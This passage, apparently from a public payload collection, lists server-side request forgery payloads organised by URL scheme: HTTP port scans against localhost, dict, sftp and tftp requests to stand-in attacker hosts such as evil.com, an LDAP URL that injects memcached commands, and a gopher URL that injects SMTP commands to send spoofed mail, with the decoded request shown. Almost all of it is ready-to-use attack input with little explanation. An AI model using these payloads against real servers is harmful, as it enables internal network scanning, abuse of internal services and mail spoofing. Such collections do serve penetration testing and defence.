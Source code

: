 ### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

The following URL scheme can be used to probe the network

### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP 

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Gopher

```powershell
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !
```